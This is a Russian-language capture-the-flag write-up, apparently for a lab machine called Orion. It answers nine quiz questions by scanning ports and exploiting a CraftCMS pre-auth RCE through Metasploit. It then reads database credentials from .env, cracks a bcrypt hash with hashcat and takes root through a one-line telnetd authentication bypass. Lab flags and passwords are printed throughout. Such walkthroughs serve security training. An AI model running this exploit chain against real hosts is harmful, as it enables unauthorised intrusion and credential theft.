


# Вопросы
1. How many open TCP ports are listening on Orion?
2. What is the version of CraftCMS running on the target?
3. Which user is running CraftCMS?
4. Which file contains the password for the MySQL database?
5. What is the password that can be obtained from the MySQL database?
6. Submit the flag located in the Adam user's home directory.
7. Which service, unrelated to CraftCMS, is open only locally on Orion?
8. What is the version of the service found?
9. Submit the flag located in the root user's home directory.
# Разведка и решение
Для начало просканируем порты с помощью nmap, чтобы ответить на первый вопрос:
```bash
nmap -sC -sV 10.129.117.199
```
Вывод:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
У нас открыто 2 порта. Это ответ на 1-ый вопрос.
```text
How many open TCP ports are listening on Orion?
2
```
Дальше я решил проверить папулярные ручки и перешел на ``/admin``. Меня перекинуло на страницу авторизации, на который написана версия CMS.



Так мы нашли ответ на второй вопрос.
```text
What is the version of CraftCMS running on the target?
5.6.16
```
Поизучав страницу я понял, что на ней нету информации о пользователе. Поэтому я пошел гуглись CVE, чтобы продвинуться в решении. Я нашел `CVE-2025-32432` (CVSS 10.0), которая позволяет неавторизованным злоумышленникам выполнять произвольный код (RCE) на сервере. Решил воспользоваться легким способом и пошел в metasploitable.
```bash
msfconsole
search CVE-2025-32432
```
Вывод
```bash
Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```
Найс sploit на эту уязвимость есть в metasploitable, поэтому я смогу удобно и быстро проэксплотировать уязвимость. 
```bash
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
show options
set RHOST <ip_host>
set VHOST orion.htb
set LHOST <my_ip>
run
```
После мы получаем доступ к хосту. Но перед этим введем команду shell.
```bash
shell 
id 
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Мы зашли под пользователем www-data. Это ответ на 3-ий вопрос. xD
```text
Which user is running CraftCMS?
www-data
```
Так дальше нам надо найти пароль от БД, пахнет жаренным) Погуглив, что это может быть за файл я вспомнил про ``.env``. Теперь нам надо перейти в нужную директорию и прочитать ``.env``.
```bash
cd /var/www/html/craft
cat .env
```
Вывод:
```bash
# General settings
CRAFT_SECURITY_KEY=RRS86F6i2JQKdC6kfEI7frVxA47WVMx8
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

PRIMARY_SITE_URL=http://orion.htb/
```
Вот и нашли ответ на 4-ый вопрос. 
```text
Which file contains the password for the MySQL database?
.env
```
Дальше нам надо из БД вытащить hash пароля пользователя adam. Поковырявшись я нашел запрос для вытаскивания хэша.
```bash
mysql -u root -p'SuperSecureCraft123Pass!' -e "SELECT id, username, email, password, admin FROM users;" orion
```
Вывод:
```text
1       admin   adam@orion.htb  $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS    1
```
Теперь хэш пихаем в txt фаил и с помощью утилиты hashcat пробуем восстановить пароль.
```bash
hashcat -m 3200 -a 0 ./hash.txt ~/Work/dict/rockyou.txt
```
Вывод:
```text
$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS:darkangel
```
В момент ноут стал подлагивать, но в он смог подобрать пароль) Теперь у нас есть ответ на 5-ый вопрос.
```text
What is the password that can be obtained from the MySQL database?
darkangel
```
Теперь заходим по ssh под логином adam и читаем флаг user.txt
```bash
ssh adam@<ip_host>
cat user.txt # 189b094e24126fe455ffed2264d5e3fe
```
Вот первый флаг и ответ на 6-ой вопрос.
```text
Submit the flag located in the Adam user's home directory.
189b094e24126fe455ffed2264d5e3fe
```
Дальше надо посмотрель какие порты прослушиваются.
```bash
ss -tlnp
```
Вывод:



Так же я начал проверять каждый порт. После понял, что не связанный сервис c CraftCMS это ``telnet``. Похоже через него надо будет повышать привелегию... Но сначало надо сдать ответ на 7-ой вопрос.
```text
Which service, unrelated to CraftCMS, is open only locally on Orion?
telnet
```
Дальше надо узнать версию telnet.
```bash
which telnetd # /usr/local/sbin/telnetd
/usr/local/sbin/telnetd --version # 2.7
```
Так мы получили ответ на 8-ой вопрос.
```text
What is the version of the service found?
2.7
```
Теперь осталось повысить свои привелегии и прочитать root флаг. Поискав на просторах интернета про возможную уязвимость я наткнулся на CVE-2026-24061 – GNU InetUtils telnetd Authentication Bypass Vulnerability. На сайте OffSec я нашел команду с помощью которой можно повысить права.
```bash
USER='-f root' telnet -a <ipaddr>
```
Поскольку telnet запущен лакально вместо ipaddr подставляем ``127.0.0.1``. После этого мы заходим под root и можем прочитать root.txt.
```bash
cat root.txt # f9ee5b52a4c11659a49978c5732dd27c
```
Вот финальный флаг и ответ на последний вопрос.
```text
Submit the flag located in the root user's home directory.
f9ee5b52a4c11659a49978c5732dd27c
```
# Итог
Вторая таска на райтап решилась быстрее и как буд-то полегче. Недопонимание возникло в самом начале, стоит ли искать пользователя, который авторизован или искать CVE. Тачка понравилась было не так сложно, вопросы были логичные и помогали продвигаться. 